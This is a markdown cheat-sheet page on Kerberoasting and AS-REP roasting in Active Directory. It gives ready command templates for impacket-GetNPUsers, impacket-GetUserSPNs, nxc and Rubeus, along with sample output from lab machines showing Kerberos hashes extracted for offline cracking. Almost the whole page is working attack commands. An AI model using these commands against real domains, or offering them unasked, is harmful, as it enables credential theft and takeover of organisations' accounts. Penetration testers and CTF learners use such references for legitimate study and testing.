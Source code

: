 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ impacket-GetNPUsers ABSOLUTE.HTB/ -usersfile valid_usernames.txt -no-pass -dc-ip DC.ABSOLUTE.HTB
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:85554d22d5c220d8a757ce9913d207ea$7288c91ca ...[SNIP]... 0e09c5d9d1
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.181 ABSOLUTE.HTB/d.klay
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for d.klay
$krb5asrep$23$d.klay@ABSOLUTE.HTB:97c9a3ec7b550c29bc52f0c176738e73$ab25b07d4 ...[SNIP]... 78a8e52bb6
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <DC> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

```console {class="sample-code"}
$ nxc ldap 10.10.11.181 -u valid_usernames.txt -p '' --asreproast as_rep_hashes.txt
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    445    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:5a082acfc8 ...[SNIP]... 06ddb9be16
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# With Password
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC>
```

```console
# With Kerberos
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -k -dc-host <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && impacket-GetUserSPNs -request 'scrm.local/ksimpson:ksimpson' -k -dc-host DC1.scrm.local
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$b62984d5b ...[SNIP]... f4c2161493
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC> <DOMAIN>/
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && impacket-GetUserSPNs -no-preauth jjones -usersfile valid_usernames.txt -dc-host 10.10.11.231 rebound.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$d989a5d49 ...[SNIP]... 962d2aa2f2
...[SNIP]...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
sudo ntpdate -s <DC> && nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && nxc ldap 10.10.11.168 -u ksimpson -p 'ksimpson' -k --kerberoasting kerberoast_hashes.txt
LDAP        10.10.11.168    389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       10.10.11.168    636    DC1.scrm.local   [+] scrm.local\ksimpson 
LDAPS       10.10.11.168    636    DC1.scrm.local   Bypassing disabled account krbtgt 
LDAPS       10.10.11.168    636    DC1.scrm.local   [*] Total of records returned 2
LDAPS       10.10.11.168    636    DC1.scrm.local   sAMAccountName: sqlsvc memberOf:  pwdLastSet: 2021-11-04 00:32:02.351452 lastLogon:2024-09-24 15:53:26.496449
LDAPS       10.10.11.168    636    DC1.scrm.local   $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$335aeba3b ...[SNIP]... 9718487474
```

```console
# With socks5 proxy
proxychains4 -q nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt --dns-tcp --dns-server <DC_IP>
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
